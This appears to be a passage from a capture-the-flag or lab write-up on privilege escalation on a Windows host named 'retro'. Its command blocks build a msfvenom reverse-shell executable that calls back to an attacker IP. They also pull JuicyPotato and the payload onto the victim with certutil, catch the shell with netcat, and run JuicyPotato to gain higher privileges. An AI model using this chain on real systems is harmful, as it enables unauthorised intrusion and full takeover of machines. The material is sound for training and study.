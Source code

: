 <figure><img src="../../.gitbook/assets/image (33) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation Option #2&#x20;

Since the web user had more access than Wade but we couldn't write anywhere I made a folder that they could write to.

**Kali**

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.133.11 lport=1337 -f exe -o exploit.exe
python2 -m SimpleHTTPServer 81
```

**Victim(cmd) - Wade**

```
cd C:\
mkdir test
cd test
certutil -urlcache -f http://10.10.133.11:81/JuicyPotato.exe JuicyPotato.exe
certutil -urlcache -f http://10.10.133.11:81/exploit.exe exploit.exe
```

**Kali**

```
nc -lvnp 1337
```

**Victim(cmd) - retro**

```
JuicyPotato.exe -l 1337 -p exploit.exe -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" 
```
